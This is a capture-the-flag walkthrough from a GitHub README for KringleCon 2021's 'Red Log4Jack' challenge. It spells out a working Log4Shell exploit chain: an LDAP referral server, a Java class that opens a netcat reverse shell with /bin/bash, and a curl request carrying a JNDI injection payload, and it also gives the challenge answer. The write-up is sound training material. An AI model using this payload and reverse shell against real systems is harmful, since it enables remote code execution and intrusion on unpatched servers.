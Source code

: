 # Bonus) Red Log4Jack

 KringleCon 2021 released 2 bonus objectives in view of the Log4j RCE vulnerability that was discovered early Dec 2021:  
1. Red Log4Jack
2. Blue Log4Jack
This README is a walkthough to solving the **Red Log4Jack** bonus objective

Hints provided by Icky McGoop:
- Join Bishop Fox for [a discussion](https://bishopfox.com/blog/log4j-zero-day-cve-2021-44228) of the issues involved.
- Josh Wright's [help document](https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4) for the Red challenge.

Answer: **patching**

---
## Walkthrough

You can find the the Bonus stage for Red Log4Jack at _The North Pole_.

To get to The Bonus stage of Red Log4Jack, just head to _The North Pole_. Right between the Santa's Castle and Frost Tower is the Bonus! Red Log4Jack terminal with Icky McGoop beside.  
First reach out to Icky McGoop to understand the situation.

![](./res/red_log4jack_icky_mcgoop.png)

---
## Solution

Icky McGoop asked us to see if we can get to the _.log_ file within the `Bonus! Red Log4Jack` terminal.

Access the terminal:  
![](./res/sol_pic1.png)

You can follow the instructions at this website: https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4.  

at the middle console, run the following commands:  
`cd marshalsec/`  
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<YOUR_TERMINAL_IP>:8080/#YuleLogExploit"`  
-- Do replace the <YOUR_TERMINAL_IP> with your terminal IP which can be found at the top of the console under **Serving HTTP ON <YOUR_TERMINAL_IP> port 8080 ...** or **Listening on [<YOUR_TERMINAL_IP>] 4444 ...**  
![](./res/sol_pic2.png)

On bottom console, run the following command:  
`cd web`  
`nano YuleLogExploit.java`  
copy the code into the nano editor:  
```
public class YuleLogExploit {  
    static {  
        try {  
            java.lang.Runtime.getRuntime().exec("nc <YOUR_TERMINAL_IP> 4444 -e /bin/bash");  
        } catch (Exception err) {  
            err.printStackTrace();  
        }  
    }  
}
```
-- Again make sure to change the <YOUR_TERMINAL_IP> with your terminal IP.

Next compile the exploit using javac compile with this command:  
`javac YuleLogExploit.java`  
`ls`  
![](./res/sol_pic3.png)

Next, deliver the exploit to gain remote access by running the command below:  
`curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?foo=$\{jndi:ldap://<YOUR_TERMINAL_IP>:1389/YuleLogExploit\}'`  
-- Again make sure to change the <YOUR_TERMINAL_IP> with your terminal IP.  
![](./res/sol_pic4.png)

With that, you will see update on the middle console and netcat listener console on the top right.  
Middle console:  
![](./res/sol_pic5.png)  
Top right console:  
![](./res/sol_pic6.png)  

On the netcat listener console, use the following command to get to the `kringle.txt` file on the server:  
`cat /home/solr/kringle.txt`  
![](./res/sol_pic7.png)  

on the bottom console, run the following to provide answer and earn an achievement:  
`runtoanswer`  
`patching`  

Answer: **patching**  
![](./res/sol_answer.png)  